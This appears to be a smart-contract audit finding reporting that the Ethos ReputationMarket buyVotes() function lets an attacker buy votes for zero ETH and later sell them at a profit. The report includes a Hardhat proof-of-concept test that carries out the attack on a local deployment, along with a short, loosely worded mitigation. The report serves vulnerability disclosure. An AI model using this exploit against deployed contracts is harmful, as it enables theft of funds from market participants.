 Strong Daffodil Jaguar

Medium

# User Can Buy Votes For Zero ETH

### Summary

In the Reputation Market, we assume two critical assumptions:

1. Base price must be >= MINIMUM_BASE_PRICE (0.0001 ether).
2. The LMSR invariant must be maintained (yes + no price sum to 1).

If these assumptions are violated, it becomes possible for a user to exploit the system by purchasing votes (trust or distrust, depending on the proportions) for less than the MINIMUM_BASE_PRICE or even for nothing (ZERO ETH).

As a result, an attacker could acquire a portion of the trust or distrust votes for free, paying only the gas fees for the transaction. Furthermore, if the number of opposing votes changes beyond a specific threshold, the attacker could sell their votes at a non-zero price. Essentially, the attacker would have bought votes at ZERO ETH and sold them at a profit, exploiting the broken market dynamics.

### Root Cause

Break a concept:  
The main violation is allowing a user/attacker to purchase votes at a price of zero ETH. 
Also, it breaks the LMSR invariant that: yes + no price sum must equal to 1; in this case, yes + no price < 1.

The break of those concepts allows you to purchase yes or no vote for ZERO ETH paying only the gas fees. 

```Solidity
if (total > msg.value) revert InsufficientFunds();
```
(https://github.com/sherlock-audit/2024-12-ethos-update/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L440C3-L467C6)

This line of code is in buyVotes() in ReputationMarket.sol 
Then, if total = 0 and msg.value = 0, then you can overcome this condition (total will be equal zero when distrust  vote equal Zero)

### Internal Pre-conditions

1. The admin needs to create a reputation contract with a default tier config 
2. A user or group of users must buy all the trust  OR distrust votes which cap at 133,000 votes on each side for the default tier. i.e. Trust vote ~ 133,000
3. The opposite vote number must be 1 or less. i.e Distrust vote <= 1 

### External Pre-conditions

No need for any change outside the protocol 

### Attack Path

1. Attacker will buy a specific number of distrust votes for ZERO Eth/free
2. Attacker will monitor the selling for trust votes reaching a number beyond a specific threshold
3. Then, the attacker will sell his/her distrust making money 

Notice: the amount of money the attacker makes depends on how much the users sell of the opposite vote beyond a specific threshold.  

### Impact

If the attacker buys distrust vote for 0, sell the,m, and gain up to 903 ETH. 
Attacker range of gain: [0.008, 903]
If the attacker is paying 0 ETH, he is able to also avoid paying protocol fees. 

If the admin used another tier with lower liquidity and higher volatility, then the number of votes will be lower meaning a higher volatility and less threshold (opposite vote number decreament) for the attacker to start making money.
In the PoC, the attacker needs a 35K decrease in the trust vote to make money. 
If the liquidity is lower, the total trust or distrust votes will be less than 133K and less than 35k decrease will be needed to make money for ZERO ETH upfront 


### PoC

```JavaScript 
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect, use } from 'chai';
import chaiAsPromised from 'chai-as-promised';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { MarketUser } from './utils.js';

import hre from 'hardhat';
const { ethers } = hre;

use(chaiAsPromised as Chai.ChaiPlugin);

// the deployer (admin) will deploy reputation market with defual tier config 
// create two users: userA and attacker

describe('User Can Buy Votes For Zero ETH ', () => {
  let deployer: EthosDeployer;
  let userA: MarketUser;
  let attacker: MarketUser;
  let reputationMarket: ReputationMarket;

  const DEFAULT = {
    reputationMarket: undefined as unknown as ReputationMarket,
    profileId: 1n,
    liquidity: 1000n,
    buyAmount: ethers.parseEther('.01'),
    value: { value: ethers.parseEther('.1') },
    isPositive: true,
    creationCost: ethers.parseEther('.2'),
  };

  beforeEach(async () => {
    deployer = await loadFixture(createDeployer);

    if (!deployer.reputationMarket.contract) {
      throw new Error('ReputationMarket contract not found');
    }
    const [marketUser, ethosUserA, ethosattacker] = await Promise.all([
      deployer.createUser(),
      deployer.createUser(),
      deployer.createUser(),
    ]);
    await Promise.all([ethosUserA.setBalance('4000'), ethosattacker.setBalance('0.04')]);

    userA = new MarketUser(ethosUserA.signer);
    attacker = new MarketUser(ethosattacker.signer);

    reputationMarket = deployer.reputationMarket.contract;
    DEFAULT.reputationMarket = reputationMarket;
    DEFAULT.profileId = marketUser.profileId;

    await reputationMarket
      .connect(deployer.ADMIN)
      .createMarketWithConfigAdmin(marketUser.signer.address, 0, {
        value: DEFAULT.creationCost,
      });
  });

  //  this represent userA selling only 35K of his trust votes 
  // attacker can generate some money 
  it('Minor change in opposite vote number', async () => {

        console.log("attacker Intial Balance", await ethers.provider.getBalance(attacker.signer));
        console.log( "Start Market", await reputationMarket.getMarket(DEFAULT.profileId));


        console.log("Before posvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, true));
        console.log("Before negvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, false));

        await reputationMarket.connect(userA.signer).buyVotes(DEFAULT.profileId, true, 132999n,0n, {value: ethers.parseEther('1500')});
         // here the attacker is able to buy 91K votes for zero ETH 
        await reputationMarket.connect(attacker.signer).buyVotes(DEFAULT.profileId, false, 91000n,0n, {value: ethers.parseEther('0')});
       
        // Here you can see that the sum of trust and distrust vote does not equal the base price 
        console.log("After posvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, true))
        console.log("After negvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, false));
        await reputationMarket.connect(userA.signer).sellVotes(DEFAULT.profileId, true, 35000n, 0);
        console.log("After negvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, false));
        await reputationMarket.connect(attacker.signer).sellVotes(DEFAULT.profileId, false, 91000n, 0);
        console.log( await reputationMarket.getMarket(DEFAULT.profileId));
        
        // attacker is able to gain 0.008 ETH (his inital balance was 0.04); in the next function he make much more
        console.log("attacker End balance ", await ethers.provider.getBalance(attacker.signer));
        
  });


  // this repesetn userA selling all his turst votes 
  // attacker will be able a great amount of money 
  it('Major change in opposite vote number', async () => {

    console.log("attacker Intial Balance", await ethers.provider.getBalance(attacker.signer));
    console.log("Start Market",  await reputationMarket.getMarket(DEFAULT.profileId));


    console.log("Before posvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, true));
    console.log("Before negvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, false));

    await reputationMarket.connect(userA.signer).buyVotes(DEFAULT.profileId, true, 132999n,0n, {value: ethers.parseEther('1500')});
     // here the attacker is able to buy 91K votes for zero ETH 
    await reputationMarket.connect(attacker.signer).buyVotes(DEFAULT.profileId, false, 91000n,0n, {value: ethers.parseEther('0')});

    // Here you can see that the sum of trust and distrust vote does not equal the base price 
    console.log("After posvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, true));
    console.log("After negvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, false));
    await reputationMarket.connect(userA.signer).sellVotes(DEFAULT.profileId, true, 132999n, 0);
    console.log("After negvote price", await reputationMarket.getVotePrice(DEFAULT.profileId, false));
    await reputationMarket.connect(attacker.signer).sellVotes(DEFAULT.profileId, false, 91000n, 0);
    console.log( await reputationMarket.getMarket(DEFAULT.profileId));
    
    // Attacker is able to make ~ 903 ETH
    console.log("attacker End balance ", await ethers.provider.getBalance(attacker.signer));
    
});
});
```

### Mitigation

Check in+ buyVotes() function that: 
- check if msg.value !=  0
-  check if total == 0
Remmeber, these are cause by price of distrust vote dropping to zero 